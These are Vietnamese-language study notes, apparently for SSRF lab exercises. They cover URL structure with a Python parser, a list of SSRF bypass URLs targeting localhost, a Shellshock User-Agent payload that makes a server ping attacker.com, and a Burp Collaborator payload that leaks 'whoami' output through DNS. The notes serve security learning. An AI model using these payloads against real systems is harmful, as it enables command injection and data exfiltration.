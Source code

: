 ```schema://[user:password@]host[:port]/path[?query] [#fragment]```
## Thành phần của 1 URL

```python
from urllib.parse import urlparse, unquote

def parse_url(raw_url):
    print(f"URL Gốc     : {raw_url}")
    decoded_url = unquote(raw_url)
    print(f"Đã decode   : {decoded_url}")
    parsed = urlparse(decoded_url)

    print("\n📦 Phân tích URL:")
    print(f"- Scheme     : {parsed.scheme}")
    print(f"- User Info  : {parsed.username or ''}")
    print(f"- Host       : {parsed.hostname}")
    print(f"- Port       : {parsed.port or 'Mặc định (80/443)'}")
    print(f"- Path       : {parsed.path}")
    print(f"- Query      : {parsed.query}")
    print(f"- Fragment   : {parsed.fragment}")
    print("-" * 40)
# Ví dụ các payload SSRF
urls = [
    "http://localhost%2523stock.weliketoshop.net",
    "http://localhost%2523@stock.weliketoshop.net",
    "http://127.0.0.1@stock.weliketoshop.net/admin",
    "http://localhost/admin#stock.weliketoshop.net",
    "http://stock.weliketoshop.net@127.0.0.1/admin",
]

for u in urls:
    parse_url(u)
```

- Chạy code này để quan sát kỹ các thành phần 1 URL.

## Shellshock-CVE-2014-6271

- Là 1 lỗ hổng trong ```Bash shell```, xảy ra khi biến môi trường chứa ```function``` bị ghi sai định dạng.

-Nếu bạn gửi 1 header như:

```User-agent: () {:;}; ping attacker.com```

-->Server chạy lệnh ping ```attacker.com``` nếu nó sử dụng Bash để xử lý header đó.

==>Vulnerable ở phần ```User-agent```.

## Burp Collaborator

- Là 1 dịch vụ trung gian giúp bạn biết khi nào target gửi DNS hoặc HTTP request ra ngoài.

- Bạn tạo payload như:

```Ping `whoami`.abc123.burpcollaborator.net```

-->Server sẽ ping domain chứa output của ```whoami``` 

-->Bạn nhìn thấy trong tab ```Collaborator client``` 

--> ```Poll now```.


# Lab Server-side Request Forgery

```